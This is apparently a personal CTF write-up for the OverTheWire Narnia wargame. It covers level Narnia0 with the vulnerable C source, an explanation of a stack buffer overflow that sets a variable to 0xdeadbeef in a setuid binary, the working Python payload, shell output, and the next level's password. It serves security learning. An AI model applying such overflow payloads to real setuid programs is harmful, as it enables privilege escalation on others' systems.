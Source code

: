 ## OverTheWire: Narnia
After the frusration and lack of success in the Oman Quals CTF, I've decided to redirect my attention to some of the OverTheWire challenges. I've already completed both the Bandit and Leviathon series of challenges, but will not be doing write-ups on those due to the amount of resources already out there.

### Narnia0
After logging in with the username and password `narnia0` and reading the Welcome banner. It is discovered that the passwords for each level are stored in /etc/narnia_pass/narniaX and the programs to be exploited are in /narnia/ (as well as the source code for said programs).

After looking at the code for narnia0.c, we can see that we need the val variable to be equal to 0xdeadbeef which can be done with a buffer overflow since the buf variable that is read-in from user input is just before the val variable on the stack. Also, because the executable narnia0 has the setuid bit set (s in the owner execute spot in a long listing) the shell that is run in the program will have the privileges of the owner, i.e. narnia1, and allow us to view that users password file.

```
int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

By entering `(python -c 'print "A"*20 + "\xef\xbe\xad\xde"*10')` and piping it into the file we don't get the "WAY OFF!!!!" that we normally would but we also don't get the shell that we expect. So we know it works (kind of) but why are we using those commands. Well '-c' is used to tell python that the following information will be command-line input. Then the 20 A's are used to take up the space in the buf variable and finally we have the 0xdeadbeef in reverse byte-order to account for how the bytes are stored in memory (most PCs are little-endian, i.e. the byte with the littlest value is stored first, this can be checked with the command `lscpu | grep "Byte Order"`).

Now we just have to add something to leave the input open after our code is run (after some research, I found the best way to do this was via the `cat` command).

So the full series of commands is as follows:
```
narnia0@narnia:~$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ▒
val: 0xdeadbeef
whoami
narnia1
```
And we can use this to find our flag:
```
cat /etc/narnia_pass/narnia1
efeidiedae
```

### Narnia1

**TBD** 
